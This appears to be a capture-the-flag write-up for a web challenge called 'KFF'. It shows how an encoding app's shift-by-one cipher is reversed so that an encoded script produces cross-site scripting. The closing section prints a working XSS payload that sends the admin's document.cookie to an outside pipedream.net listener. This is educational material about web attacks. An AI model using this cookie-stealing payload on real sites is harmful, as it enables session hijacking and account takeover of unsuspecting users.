

# KFF

## Problem

```
This encoding application seems to have a massive oversight.

Can you exploit it and steal the Admins session?
```

We get a big lock image with two prompts that encode a message, one for viewing ourselves our encoded message and another one to send the encryped message to the admin. 
Smells like [XSS](https://owasp.org/www-community/attacks/xss/), doesn't it?

# Solution

Let's try to encode some messages. If we say `hello`, we receive `ifmmp`. It looks like we have a [ROT13](https://en.wikipedia.org/wiki/ROT13) variant cipher instead of an encoding, right?. 

  

However, if we try with symbols, they also rotate, therefore we are talking about a variant of [ROT47](https://en.wikipedia.org/wiki/ROT13#Variants) encryption with a rotation we don't know yet.



We can use [Cyberchef](https://gchq.github.io/CyberChef/)'s ROT47 tool to play around with the ciphertext until we decrypt it:


We find the ciphertext being decrypted as ROT1 but what we actually need is the oposite to correctly encrypt our payload:


We finally discover the encryption is ROT-1 (ROT47(-48)). Let's try then to get some XSS working!


... And we were right!!!

Now that we finally have our PoC working, we need to send the payload to the admin in order to steal their session cookie. We can do this with the following payload, where `document.location=<our website>?cookie=` is the listening server we control with a cookie request URL encoded and `document.cookie` is the cookie we want to steal from the admin:  

```
<script>document.location="https://enx0ouxtov1d1z8.m.pipedream.net?cookie="+document.cookie;</script>
```


[Go back to Web challenges](./)
